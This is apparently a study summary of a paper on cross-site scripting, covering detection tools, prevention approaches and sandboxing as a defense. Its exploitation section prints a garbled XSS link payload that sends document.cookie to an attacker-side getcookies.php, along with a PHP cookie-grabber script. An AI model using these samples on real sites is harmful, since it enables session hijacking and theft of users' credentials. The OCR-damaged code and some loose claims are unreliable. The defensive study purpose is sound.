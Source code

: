  
This is a summary of the research paper: https://www.researchgate.net/profile/Shashank-Gupta-34/publication/299040084_Exploitation_of_Cross-Site_Scripting_XSS_Vulnerability_on_Real_World_Web_Applications_and_its_Defense/links/56ee6cf808ae59dd41c6a329/Exploitation-of-Cross-Site-Scripting-XSS-Vulnerability-on-Real-World-Web-Applications-and-its-Defense.pdf

<h1>Cross-Site Scripting (XSS) attack </h1>
is a common vulnerability which is being exploited in web 
applicationsthrough the injection of HTML tags and malicious Java Script code.

The usual method of sanitizing Javascript code stil leavs vulnerabilites on the table,instead 
the researchers propose the use  of a Sandbox environment used in sites like blogger.com operated 
by Google.

Often the target of these attacks is to get cookies,
Cookies are the most general way to identify and authenticate
the users and it is being supported by almost all the web
browsers.

Recent survey has shown that almost 67% of websites are vulnerable to XSS attacks.

<h2><i>Detection of XSS Vulnerability:</i></h2>
we could do a static source code analysis or do dynamic testing by executing known attacks on 
the site.
L-WMxD (Lexical based Webmail XSS
Discoverer), which works on a lexical based mutation engine
which is an active defence system to discover XSS before the
Webmail application is online for service.
Pixy is a tool that performs data flow
analysis on PHP code to detect reflected XSS vulnerabilities.
Various prototype tools which are based on Pixy have been
implemented by the researchers and test on the real world
PHP programs.

<h2><i>Prevention of XSS Vulnerability</i></h2>
application-level firewall is suggested,
which is located on a security gateway between client and
server and which applies all the security relevant checks and
transformations. Some server side prevention approaches
require the collaboration of web browsers.

On the client side, researchers have developed the Noxes
 which acts as a personal firewal on the basis of filter rules,a user-specified URL white-list and blacklist
websites. During the HTTP request to an unknown website, Noxes immediately alerts the client, who
chooses to permit or deny the connection, and remembers the
client’s action for future use. Another client side approach which aims to identify the information
leakage using tainting of input data in the browser or 
mechanism for detecting malicious java script is proposed: the system consists of a browser-embedded script auditing
component, and IDS that processes the audit logs and compares them to signatures of known malicious behavior or attacks.

There are no logical server side solutions, as they face a deployment issue and degrade the web speed also.
<h2><i>ARCHITECTURE OF EXPLOITING
XSS VULNERABILITY</i></h2>

Web applications frequently use cookies for retaining an authentication state between users and web applications.
These cookies are usually sent to the users by the web applications after the users have been successfully
authenticated. Every consequent request that contains the legitimate cookies will be automatically approved by the web
applications without any further authentication.
Hence they are the target for vulnerabilities.
```
<a onclick

documentlocation=http localhost/xss-
attacker/getcookies php cookie="rescape(document cookie)
href="2">click here </a> to know about XSS attack
```
The following are the details of this malicious Java Script
code:

On Click Event: This event executes the Java Script
function, which is embedded inside it.
Document. Location: This function will store the
address or URL where the actual file has to be
transferred.
Get Cookies.PHP: It is a cookie grabber file which
will store on the attacker site and steal the cookies
of the victim’s domain.
Escape (document.cookie): Escape is a function call
which will pass the argument i.e. document. Cookie.
Document is an object and Cookie is a file in Java
Script which will capture the current cookies of any
particular session.

cookie stealer file which is loaded on the attacker site and transfers
the current cookies to a blank cookie.txt file which is also
loaded on the attacker site. Following is the vulnerable PHP
code of a cookie stealer file.
```
- <’php
. Scookie=";
. foreach(S_GET as Skey=>Svalue)

. Scookie =Skey.= $value;

- }

. Sdate=date("d'm/'Yhi:sA");

. Suser_agent=$_SERVER[HTTP_USER_AGENT];

. $file = fopen(cookies txt’, a’);

10. fwrite($file,"Sdate : Scookie \n");

11. fclose($file);

12. echo '<b>sorry this page is under construction</b><br>
</br>Please click <a href "http://www.google.com/">
here</a>to go back to previous menu’

?>
```
The attacker domain has stored the cookie grabber file and
blank cookie.txt file. So, when the victim click on the
malicious link posted by the attacker, the cookie grabber file
gets executed on the victim’s domain and victim’s cookie will
get transfer to the blank cookie.txt file in which user-id,
password and session-id of victim’s account is stored clearly.
<h2><i>Cross-Site Scripting Defense</i></h2>

Sandbox is a restricted environment which runs our programs
in an isolated space, which prevents them from making
permanent changes to other programs and data in the
computer. The following are some benefits of sandboxing
technique:-
 
Secure Web Browsing: Running our Web browser
under the protection of Sandbox means that all
malicious software downloaded by the browser is
trapped in the sandbox and can be discarded
trivially.<br>
Enhanced Privacy: Browsing history, cookies, and
cached temporary files collected while Web
browsing stay in the sandbox and don't leak into
Windows.<br>
Secure E-mail: Viruses and other malicious
software that might be hiding in your email can't
break out of the sandbox and can't infect your real
system.<br>
Windows Stays Lean: It prevents wear-and-tear in
Windows by installing software into an isolated
sandbox.





